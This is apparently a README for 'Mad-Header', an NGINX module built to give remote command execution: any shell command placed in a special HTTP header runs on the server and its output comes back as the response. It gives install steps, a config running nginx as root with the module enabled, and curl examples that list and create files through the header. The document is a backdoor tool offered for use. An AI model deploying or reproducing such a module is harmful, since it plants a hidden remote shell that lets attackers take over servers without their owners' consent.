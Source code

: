 # Mad-Header
NGINX module to allow for RCE through a specific header. 


## Installation
There is a install script provided in the repo. It will pull down nginx and compile it with the module. Then nginx directory will be setup in `/usr/local/nginx` (nginx default). After this is complete simply open `/usr/local/nginx/conf/nginx/conf` and make sure the `mad_header` directive is added to the location context you wish to have the functionality in. (An Example nginx.conf is show below)

```
user  root;
worker_processes  1;

events {
    worker_connections  1024;
}

http {
    server {
        listen       80;
        server_name  localhost;
        location / {
	    mad_header;
        }
    }
}

```

## Usage
To use the Mad Header simply supply your command as a value to the `Mad-Header` HTTP header. The output (stdout) of your command will be the response body of the command run. If there is no stdout from the command, then the response body will obviously be empty. An example or two is shown below.

```
[root@localhost Mad-Header]# curl localhost --header "Mad-Header: ls -la /tmp"
total 4
drwxrwxrwt.  8 root root 123 Nov 30 11:39 .
dr-xr-xr-x. 17 root root 224 Oct 30 14:11 ..
drwxrwxrwt.  2 root root  19 Nov 29 22:23 .ICE-unix
drwxrwxrwt.  2 root root   6 Oct 30 14:09 .Test-unix
-r--r--r--.  1 root root  11 Nov 29 22:23 .X0-lock
drwxrwxrwt.  2 root root  16 Nov 29 22:23 .X11-unix
drwxrwxrwt.  2 root root   6 Oct 30 14:09 .XIM-unix
drwx------.  2 root root  20 Nov 29 22:24 .esd-0
drwxrwxrwt.  2 root root   6 Oct 30 14:09 .font-unix
[root@localhost Mad-Header]# curl localhost --header "Mad-Header: touch /tmp/hello"
curl: (52) Empty reply from server
[root@localhost Mad-Header]# curl localhost --header "Mad-Header: ls -la /tmp"
total 4
drwxrwxrwt.  8 root   root   136 Nov 30 11:39 .
dr-xr-xr-x. 17 root   root   224 Oct 30 14:11 ..
drwxrwxrwt.  2 root   root    19 Nov 29 22:23 .ICE-unix
drwxrwxrwt.  2 root   root     6 Oct 30 14:09 .Test-unix
-r--r--r--.  1 root   root    11 Nov 29 22:23 .X0-lock
drwxrwxrwt.  2 root   root    16 Nov 29 22:23 .X11-unix
drwxrwxrwt.  2 root   root     6 Oct 30 14:09 .XIM-unix
drwx------.  2 root   root    20 Nov 29 22:24 .esd-0
drwxrwxrwt.  2 root   root     6 Oct 30 14:09 .font-unix
-rw-rw-rw-.  1 nobody nobody   0 Nov 30 11:39 hello
```
